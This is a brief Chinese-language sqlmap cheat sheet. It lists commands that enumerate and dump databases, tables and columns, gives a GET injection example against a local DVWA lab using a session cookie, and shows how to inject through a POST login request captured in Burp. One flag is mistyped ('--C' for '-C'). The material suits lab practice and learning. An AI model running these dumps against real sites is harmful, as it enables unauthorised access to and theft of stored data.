 # sqlmap

## sqlmap直接注入

```shell
sqlmap -u http://example.com --dbs
# 跑库
sqlmap -u http://example.com -D 数据库名 --tables
# 跑指定库中表
sqlmap -u http://example.com -D 数据库名 -T 表名 --columns
# 跑指定库中指定表中列
sqlmap -u http://example.com -D 数据库名 -T 表名 --C 列名 --dump
# 跑指定库中指定表中指定列中的值


sqlmap -u http://example.com --dump
# 全输出
```

```shell
# get方法递交查询参数
sqlmap -u 
"http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit" 
--cookie="security=low; PHPSESSID=ppuucmoddjbj5cg5kmo49g3v8s"
```

## 报头为POST,无法直接注入

    例:登录
    ①burp抓包,另存到安装目录下
    ②sqlmap -r filename --dbs -p user
    ｜ -p为指定漏洞点,后跟具体发现漏洞点
    ③一致.替换-u为-r
